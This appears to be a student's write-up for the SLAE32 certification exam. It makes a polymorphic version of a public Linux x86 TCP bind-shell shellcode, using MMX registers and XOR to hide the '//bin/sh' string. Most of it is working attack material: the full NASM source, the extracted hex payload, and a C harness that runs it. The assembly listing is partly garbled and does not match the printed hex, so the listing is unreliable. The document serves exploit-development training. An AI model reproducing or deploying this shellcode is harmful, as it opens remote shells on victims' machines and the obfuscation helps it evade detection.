 


For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org. A polymorphic shellcode means that it uses different instructions to deliver the same payload.  
For example, all of these instructions will result in the same action within a program.
```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```
The first shellcode I modified was "tcpbindshell (108 bytes)", created by Russell Willis.  
This shellcode can be found at http://shell-storm.org/shellcode/files/shellcode-847.php.  

The original shellcode length was 108 bytes. Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value. The final length of this polymorphic shellcode is 144 bytes.  
To push the filename string "//bin/sh" onto the stack, I used the MMX registers.  

```nasm
global _start
_start:
xor    eax,eax
xor    ebx,ebx
xor    ecx,ecx
xor    edx,edx
mov    al,0x66
mov    bl,0x1
push   ecx
push   0x6
push   0x1
push   0x2
mov    ecx,esp
int    0x80
mov    esi,eax
mov    al,0x66
mov    bl,0x2
push   edx
pushw  0x697a
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80
mov    al,0x66
mov    bl,0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80
mov    al,0x66
mov    bl,0x5
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
int    0x80
        mov eax, edi    ; EAX = 0x66 used for socketcall SYSCAL
        inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80

; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
dup2Loop:
        dec ecx
mov    al,0x3f
int    0x80
jne    dup2Loop

push   edx
        mov edx, 0xffffffff             ; will be used to XOR the MM0 Register to result in "//bin/sh"
    mov eax, 0x978cd091             ; "n/sh" XOR'd with 0xffffffff
        ;   mov eax, 0x68732f6e             ; "n/sh"
    movd mm0, eax
    psllq mm0, 32                   ; shift the mm0 register left by 4 bytes
    mov ebx, 0x969dd0d0             ; "//bi" XOR'd with 0xffffffff
        ;   mov ebx, 0x69622f2f             ; "//bi"
    movd mm1, ebx
    paddb mm0, mm1                  ; now mm0 hold the 8 byte XOR'd "//bin/sh"
    movd mm1, edx                   ; mm1 is now 0xffffffff
    psllq mm1, 32                   ; mm1 is now 0xffffffff00000000
    movd mm2, edx                   ; mm2 us biw 0xffffffff
    paddb mm1, mm2                  ; mm1 is now 0xffffffffffffffff
    pxor mm0, mm1                   ; XOR's mm0 with mm1 and saves the results in mm0
    sub esp, 8                      ; Decrement the stack 8 bytes
    movq qword [esp], mm0           ; push "//bin/sh" from mm0 to the top of the stack

xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80
```  

I compiled and linked the shellcode. Then I used object dump to extract the hex.  
```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 
I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
I then compiled the C program.  
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```




